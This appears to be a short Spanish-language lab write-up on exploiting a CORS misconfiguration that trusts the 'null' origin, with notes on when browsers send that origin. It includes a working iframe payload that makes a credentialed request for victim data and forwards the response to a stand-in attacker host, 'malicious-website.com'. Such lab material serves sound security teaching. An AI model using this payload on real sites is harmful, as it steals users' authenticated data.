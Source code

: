 ```yaml
---
layout: default
title: 2 - CORS vulnerability with trusted null origin
---
```

El 0bjetivo es emitir una solicitud que tenga como cabecera origin "null" para que coincida con Access-Control-Allow-Origin: null

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','vulnerable-website.com/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();
	function reqListener() { location='malicious-website.com/log
	key='+this.responseText; };
</script>">
</iframe>
```

En el estándar CORS, el valor `Origin` generalmente indica el dominio de origen de la solicitud. Sin embargo, el valor `null` en el encabezado `Origin` es una excepción que se usa en casos especiales, como:

- Solicitudes desde archivos locales (protocolo `file://`).
- Redirecciones entre dominios.
- Solicitudes sandboxed en iframes.


